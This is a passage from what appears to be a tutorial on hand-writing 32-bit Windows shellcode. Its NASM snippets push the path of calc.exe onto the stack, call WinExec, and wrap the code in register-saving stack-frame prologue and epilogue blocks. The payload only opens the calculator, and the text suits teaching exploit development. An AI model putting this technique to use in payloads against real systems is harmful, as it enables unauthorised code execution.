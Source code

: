 We will push the entire binary path. Since it is perfectly 4-byte aligned, the push trick is unnecessary; we can push a register with a value of zero and then push the entire path in increments of `4` bytes:

```nasm
xor edx, edx
push edx

push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp    ; ESI "C:\Windows\System32\calc.exe"

push 10         ; window state SW_SHOWDEFAULT
push esi        ; "C:\Windows\System32\calc.exe"
call eax        ; WinExec
```

Finally, we will equip the shellcode with its own stack frame so as not to muck up the program – the shellcode is quite large, so it is good practice to keep the stack clean after it has completed.

We will construct a stack frame at the outset, save all register states before doing anything, then restore the registers and remove the stack frame at the conclusion.

Let's add it to the code and put all the pieces together to create a peb-based shellcode that functions:

```{code-block} nasm
:force:
[BITS 32]
start:
    push eax ; Save all registers
    push ebx
    push ecx
    push edx
    push esi
    push edi
    push ebp

    ; Establish a new stack frame
    push ebp
    mov ebp, esp
    sub esp, 18h ; Allocate memory on stack for local vars
```

```nasm
.end:
    ; resore all registers and exit
    pop ebp
    pop edi
    pop esi
    pop edx
    pop ecx
    pop ebx
    pop eax
    ret
```
